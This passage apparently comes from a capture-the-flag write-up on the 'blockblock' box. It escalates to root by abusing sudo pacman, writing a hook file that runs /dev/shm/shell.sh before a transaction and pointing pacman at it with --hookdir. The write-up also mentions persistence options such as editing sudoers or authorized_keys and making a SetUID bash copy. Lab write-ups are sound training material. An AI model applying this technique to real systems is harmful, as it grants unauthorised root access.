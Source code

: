 That script doesn’t have to do a reverse shell. It could just as easily written to `authorized_keys`, `sudoers`, `passwd`, or made a SetUID / SetGID copy of `bash`.

#### –hookdir

Rather than making my own package, another strategy is to use the `--hookdir` option of `pacman`:

> ```

>  ``` 
>  --hookdir <dir>  set an alternate hook location
>  ```

>
> ```

The hook location is where the application looks for files ending in `.hook` which define things that should run before and after `pacman` does things.

There are example hook files in [this repo](https://github.com/andrewgregory/pachooks/tree/master/hooks). I’ll create mine from those:

```

[paul@blockblock shm]$ cat oxdf.hook 
[Trigger]
Operation = Install
Operation = Upgrade
Type = File
Target = *

[Action]
When = PreTransaction
Exec = /dev/shm/shell.sh

```

This says before running the operation, run `shell.sh`. I’ll run this:

```

[paul@blockblock shm]$ sudo pacman -U /var/cache/pacman/pkg/file-5.45-1-x86_64.pkg.tar.zst --hookdir /dev/shm
loading packages...
warning: file-5.45-1 is up to date -- reinstalling
resolving dependencies...
looking for conflicting packages...

Packages (1) file-5.45-1

Total Installed Size:  8.33 MiB
Net Upgrade Size:      0.00 MiB

:: Proceed with installation? [Y/n] 
(1/1) checking keys in keyring                                         [########################################] 100%
(1/1) checking package integrity                                       [########################################] 100%
(1/1) loading package files                                            [########################################] 100%
(1/1) checking for file conflicts                                      [########################################] 100%
(1/1) checking available disk space                                    [########################################] 100%
:: Running pre-transaction hooks...
(1/1) oxdf.hook

```
